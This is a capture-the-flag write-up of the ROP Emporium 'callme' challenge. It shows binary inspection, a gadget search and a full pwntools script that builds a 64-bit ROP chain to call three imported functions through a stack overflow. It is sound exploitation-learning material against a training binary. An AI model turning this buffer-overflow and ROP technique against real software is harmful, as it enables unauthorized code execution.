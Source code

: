 # Challenge 3 - callme
## Description
This is the third of the ROP Emporium challenges. [callme](https://ropemporium.com/challenge/split.html)

Chain calls to multiple imported methods with specific arguments and see how the differences between 64 & 32 bit calling conventions affect your ROP chain.

Let's inspect the binary
```
mfumega@pwn-boy:/pwn-boy$ file callme
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e8e49880bdcaeb9012c6de5f8002c72d8827ea4c, not stripped
mfumega@pwn-boy:/pwn-boy$
mfumega@pwn-boy:/pwn-boy$ pwn checksec callme
[*] '/pwn-boy/callme'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
mfumega@pwn-boy:/pwn-boy$
```

And now with this in mind, we run it and prompts for our input just like the challenges before. 

If we look at the functions of the binary, we now find 3 functions called `callme_one, callme_two and callme_three`, and based on the information that the page gave us, we know that we must call this functions in the above order, with the arguments `0xdeadbeef, 0xcafebabe, 0xd00df00d`. Like this:
`callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)`.

From the previous challenge we know how to pass an argument to a function, we did it with RDI, and we already saw that the second and third arguments are passed with "RSI" and "RDX". 

Let's see which gadgets we have on the binary and filter by "pop rdi" to avoid a giant gadgets list.

```
mfumega@pwn-boy:/pwn-boy$ ropper --file callme --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret;
0x00000000004009a3: pop rdi; ret;

mfumega@pwn-boy:/pwn-boy$
```

Ok, so we actually have the one that we want. Let's write down all the addresses we have until now. 

I wrote the exploit using that gadget but didn't work, so instead I've used this gadgets:
```
pop_rdi = 0x4009a3
pop_rsi_rdx = 0x40093d
```

Also I have to pass the arguments directly in little endian. *I need to look this understand it better.*

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'amd64'
binary_path = '/pwn-boy/callme'
p = process(binary_path)
e = p.elf

# Addresses
callme_one = e.plt['callme_one']
callme_two = e.plt['callme_two']
callme_three = e.plt['callme_three']
pop_rdi = 0x4009a3
pop_rsi_rdx = 0x40093d

offset = 40

payload = b'A' * offset
payload += p64(pop_rdi) +  b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
payload += p64(pop_rsi_rdx)
payload += b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0'
payload += p64(callme_one)
payload += p64(pop_rdi) + b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
payload += p64(pop_rsi_rdx)
payload += b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0'
payload += p64(callme_two)
payload += p64(pop_rdi) + b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
payload += p64(pop_rsi_rdx)
payload += b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0'
payload += p64(callme_three)

p.send(payload)
response = p.recvall()
print(response.decode())
```

This is the final exploit to get the flag. See you on the next one! 

